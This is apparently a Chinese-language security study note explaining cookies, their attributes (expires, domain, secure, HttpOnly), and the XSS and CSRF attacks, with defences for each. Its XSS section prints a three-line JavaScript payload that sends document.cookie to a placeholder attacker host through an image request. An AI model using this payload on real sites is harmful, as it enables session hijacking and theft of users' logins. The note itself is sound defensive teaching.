 ##### cookie与cookie安全

###### cookie
    1.cookie是储存在浏览器中的一段字符串，它本身是没有任何危害的，不包含任何可执行的代码。
    2.储存cookie是浏览器的功能，浏览器的安装目录下会有一个专门存放不同域名下的cookie的文件夹。
    3.当网页发起http请求的时候，浏览器首先会检查是否有对应域名的cookie，如果有，就会自动添加到request header中，发送给服务器。
    4.cookie的存放有大小限制，不可以超过4kb, 每一个域名下的cookie数量最多是20个
    
###### cookie的格式
    1.expires  解释cookie在什么时间段内有效
    2.domain和path  限制cookie能被那些网站访问
    3.secure  设置cookie只在确保安全的请求中才会发送(https等安全协议)
    4.httpOnly  设置cookie能否通过js来访问，拥有httpOnly的cookie只能被服务器访问，客户端不能访问，可以用来防止XSS脚本攻击

###### 利用XSS漏洞获取Cookie
    一旦站点中存在可利用的XSS漏洞，攻击者可直接利用注入的js脚本获取Cookie，进而通过异步请求把标识Session id的Cookie上报给攻击者。
    
    1.var img = document.createElement('img');
    2.img.src = 'http://evil-url?c=' + encodeURIComponent(document.cookie);
    3.document.getElementsByTagName('body')[0].appendChild(img);
    
    防范方法:
    1.根据上面HttpOnly Cookie的介绍，一旦一个Cookie被设置为HttpOnly，js脚本就无法再获取到，而网络传输时依然会带上。也就是说依然可以依靠这个Cookie进行Session维持，但客户端js对其不可见。那么即使存在XSS漏洞也无法简单的利用其进行Session劫持攻击了
    2.XSS防御的总体思路是：对输入(和URL参数)进行过滤，对输出进行转义。

###### CSRF攻击
    CSRF 中文名为跨站请求伪造。原理就是攻击者构造出一个后端请求地址，诱导用户点击或者通过某些途径自动发起请求。如果用户是在登录状态下的话，后端就以为是用户在操作，从而进行相应的逻辑。
    
    防范方法:
    1、Get 请求不对数据进行修改
    2、不让第三方网站访问到用户 Cookie
    3、阻止第三方网站请求接口
    4、请求时附带验证信息，比如验证码或者 Token
   
    
